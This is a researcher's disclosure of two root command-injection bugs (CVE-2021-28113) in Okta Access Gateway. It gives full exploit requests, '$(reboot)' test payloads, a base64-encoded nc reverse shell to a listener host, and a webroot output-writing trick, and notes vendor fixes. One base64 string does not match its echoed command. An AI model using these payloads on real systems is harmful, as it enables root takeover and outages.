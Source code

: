     Okta Access Gateway v2020.5.5 Post-Auth Remote Root RCE

    CVE-2021-28113

    =======
    Details
    =======

    There are two command injection bugs can that be triggered after authenticating to the web UI.
    Since the injection occurs when a script is executed with sudo, the commands are ran with root
    privileges.

    BUG #1 - relay

    Command injection as root in Applications via the 'relaydomain' field when passing
    parameters to generateCert.sh. This is blind injection, so without monitoring logs or
    local execution instrumentation, the output will not simply returned in the response.

    Also, the included 'nc' binary that the system image includes has the -e flag available
    which enables an exploitation easier via connect back shell.

    [Request]

    POST /api/v1/app/idp/[valid-IDP] HTTP/1.1
    Host: gw-admin.domain.tld
    Content-Type: application/json;charset=utf-8
    X-CSRF-TOKEN: [placeholder]
    Content-Length: 134
    Cookie: CSRF-TOKEN=[placeholder]; JSESSIONID=[placeholder]; SessionCookie=[placeholder]

    {"settings":
    {"label":"test",
    "type":"CERTHEADER2015_APP",
    "relaydomain":"..$(whoami)", <-- HERE
    "groups":[],
    "handlers":{}}
    ,"policies":[{}]}

    [Response /w local instrumentation for monitoring]

    pid=23033 executed [/bin/bash /opt/oag/bin/generateCert.sh -w -d .root ]

    [Quick testing]

    "relaydomain":"..$(reboot)"

    and the system should reboot.

    [Exploitation for reverse shell]

    Note: for some bizzare reason, this payload worked for a period of time during testing, but was not generally reproducible afterwards.

    1) generate base64 for the connect back command to be executed

    $ echo -n "nc 10.0.0.111 5000 -e /bin/bash" | base64
    bmMgMTAuMTAuMTAuMTc5IDU1NTUgLWUgL2Jpbi9iYXNo

    2) start a listener

    $ nc -l -p 5000
    ...

    3) make the request with the payload (.. is required due to how it parses domains)

    ..$(echo${IFS}'bmMgMTAuMC4wLjExMSA1MDAwIC1lIC9iaW4vYmFzaA=='>test;$(base64${IFS}-d${IFS}test))

    4) get a root shell from the server

    * connection from 10.0.0.77 *
    python -c 'import pty; pty.spawn("/bin/bash")'

    [0] root@oag.okta.com;/root#

    BUG #2 - cookie

    Command injection as root in Identity Providers via the 'cookieDomain' field when passing
    parameters to generateCert.sh.

    [Request]

    POST /api/v1/setting/idp/local HTTP/1.1
    Host: gw-admin.domain.tld
    Content-Type: application/json;charset=utf-8
    X-CSRF-TOKEN: [placeholder]
    Content-Length: 222
    Cookie: CSRF-TOKEN=[placeholder]; JSESSIONID=[placeholder]; SessionCookie=[placeholder]

    {"subCategory":
    "IDP_SAML_LOCAL",
    "json":{
    "name":"Local OAG IDP",
    "host":"https://google.com",
    "cookieDomain":"$(uname${IFS}-n)", <-- HERE
    "nameIDFormat":"urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified",
    "metadata":{}},
    "$edit":true}

    [Response /w local instrumentation for monitoring]

    pid=22822 executed [/bin/bash /opt/oag/bin/generateCert.sh -w -d Linux oag 3.10.0-957.27.2.el7.x86_64
    #1 SMP Mon Jul 29 17:46:05 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux uid=0(root) gid=0(root) groups=0(root) ]

    [Quick testing]

    "cookieDomain":"$(reboot)"

    and the system should reboot.

    [Exploitation for executing commands with output in the webroot]

    Same note as the previous one; for some reason, this payload worked for a period of time during testing, but then stopped fully working (the bug was still there just less exploitable).

    1) generate base64 for "ls -al /root" to be written to a location accessible via web request

    $ echo -n "script -q -c ls\$IFS-al\$IFS/root /opt/oag/simpleSAMLphp/www/test.php" | base64 -w0
    c2NyaXB0IC1xIC1jIGxzJElGUy1hbCRJRlMvcm9vdCAvb3B0L29hZy9zaW1wbGVTQU1McGhwL3d3dy90ZXN0LnBocA==

    2) make the request with the payload

    $(echo${IFS}'c2NyaXB0IC1xIC1jIGxzJElGUy1hbCRJRlMvcm9vdCAvb3B0L29hZy9zaW1wbGVTQU1McGhwL3d3dy90ZXN0LnBocA=='>test;$(base64${IFS}-d${IFS}test))

    3) check https://gw-admin.domain.tld/auth/test.php for the output of the command

    ===
    Fix
    ===

    The cookie bug was a "known issue" and fixed in v2020.9.3 and the relay bug was also fixed and no longer works on the latest v2021.2.1.

    https://www.okta.com/security-advisories/cve-2021-28113/
